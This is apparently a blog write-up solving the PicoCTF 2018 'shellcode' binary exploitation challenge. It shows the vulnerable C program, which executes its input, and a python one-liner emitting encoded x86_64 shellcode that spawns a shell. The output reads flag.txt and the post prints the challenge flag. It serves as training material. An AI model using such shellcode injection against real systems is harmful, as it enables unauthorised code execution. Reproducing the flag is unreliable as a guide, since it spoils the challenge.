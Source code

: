 ```yaml
---
layout: post
title:  PicoCTF 2018 Challenge [Binary Exploitation 200pts]
---
```

<h3><strong>PicoCTF 2018 - Binary Exploitation 200: shellcode</strong></h3>

<hr>

<p><strong>Challenge</strong></p>

<p>
This program executes any input you give it. Can you get a shell?

You can find the program in ``` /problems/shellcode_0_48532ce5a1829a772b64e4da6fa58eed ``` on the shell server.

Source
</p>

<hr>

<p> The challenges were very easy i have solved several of challenges but I just wrote some useful solutions </p>

<p><strong>Solution</strong></p>

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");

  ((void (*)())buf)();

  return 0;
}
```

by executing we connected remotly shell and show as : 

```
drwxr-xr-x   2 root       root          4096 Sep 28 08:11 ./
drwxr-x--x 576 root       root         53248 Sep 30 03:45 ../
-r--r-----   1 hacksports shellcode_0     34 Sep 28 08:11 flag.txt
-rwxr-sr-x   1 hacksports shellcode_0 725408 Sep 28 08:11 vuln*
-rw-rw-r--   1 hacksports hacksports     562 Sep 28 08:11 vuln.c
```

the terminal shown a list of files contain Flag.txt , but we don"t have the right permision , so we need to get read the content of flag.txt by vuln .
we have already know "shellcode" i adopted Shellstorm collections 


```
$ uname -a
Linux pico-2018-shell-1 4.4.0-1067-aws #77-Ubuntu SMP Mon Aug 27 13:22:03 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Linux x86_64 i wrote a shellcode : 

```
$ python -c "print('\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xf
e\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81')" > ~
/shellcode.txt

$ cat ~/shellcode.txt - | ./vuln
Enter a string!
1V_ȈF22i0tii0cjo΁
Thanks! Executing now...

ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{shellc0de_w00h00_9ee0edd0}

```
Bingo, we Got the Flag  

picoCTF{shellc0de_w00h00_9ee0edd0}

<p>#0v3n_Sh3ll ❤</p>
